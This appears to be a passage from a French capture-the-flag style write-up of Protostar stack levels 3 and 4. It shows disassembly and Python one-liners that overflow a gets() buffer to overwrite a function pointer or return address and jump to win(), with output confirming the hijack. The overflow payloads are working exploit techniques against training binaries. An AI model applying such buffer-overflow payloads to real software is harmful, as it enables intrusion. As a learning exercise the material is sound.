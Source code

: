 Gotcha :

```shellsession
$ python -c 'print "\x24\x84\x04\x08"*20' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
Segmentation fault
```

## Level 4

On entre finalement sur un cas plus réaliste : ici pas de pointeur sur fonction, il faut écraser l'adresse de retour en débordant du tampon assigné au buffer.

```nasm
int main (int argc, char **argv, char **envp);
; var char *s @ esp+0x10
0x08048408      push    ebp
0x08048409      mov     ebp, esp
0x0804840b      and     esp, 0xfffffff0
0x0804840e      sub     esp, 0x50
0x08048411      lea     eax, [s]
0x08048415      mov     dword [esp], eax ; char *s
0x08048418      call    gets       ; sym.imp.gets ; char *gets(char *s)
0x0804841d      leave
0x0804841e      ret
0x0804841f      nop
```

On a toujours une fonction `win()` mais à l'adresse `0x080483f4`.

```shellsession
$ $ python -c 'print "\xf4\x83\x04\x08"*30' | ./stack4
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
Segmentation fault
```

On a dépassé les attentes en faisant exécuter la fonction plusieurs fois car étant utilisé à plusieurs reprises comme adresse de retour.

Ca montre un apperçu du ROP programming :)

## Level 5

On est dans un cas similaire au level 0 :
